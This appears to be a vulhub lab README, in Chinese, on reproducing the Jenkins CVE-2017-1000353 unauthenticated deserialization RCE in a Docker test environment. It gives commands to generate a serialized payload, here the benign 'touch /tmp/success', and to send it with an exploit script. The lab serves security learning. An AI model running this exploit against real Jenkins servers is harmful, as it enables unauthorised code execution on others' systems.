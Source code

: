 # Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

Jenkins 是一个广泛使用的开源自动化服务器。

Jenkins 2.56 及更早版本以及 2.46.1 LTS 及更早版本存在未授权的远程代码执行漏洞。这个未经身份验证的远程代码执行漏洞允许攻击者向 Jenkins CLI 传输序列化的 Java `SignedObject` 对象，该对象会使用新的 `ObjectInputStream` 进行反序列化，从而绕过现有的基于黑名单的保护机制。

References:

- <https://www.jenkins.io/security/advisory/2017-04-26/>
- <https://www.exploit-db.com/exploits/41965>

## 环境搭建

执行如下命令启动 Jenkins 2.46.1：

```
docker compose up -d
```

等待服务器完全启动后，访问 `http://your-ip:8080` 即可看到 Jenkins 已成功运行，无需手动安装。

## 漏洞复现

漏洞利用过程分为两个步骤：生成恶意序列化载荷，并将其发送至目标 Jenkins 服务器。

首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。这个工具将创建一个包含我们命令的序列化对象：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 是生成的输出文件名
# "touch ..." 是要执行的命令
```

执行上述命令后，将生成一个名为 `jenkins_poc.ser` 的文件，其中包含序列化后的 payload。

接下来，下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) 脚本，并使用 Python 3 执行以发送 payload：

```bash
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![发送漏洞利用载荷](1.png)

要验证漏洞利用是否成功，请检查容器内是否创建了指定文件：

![命令执行验证](2.png)

`/tmp/success` 文件的存在证实了远程代码执行成功。
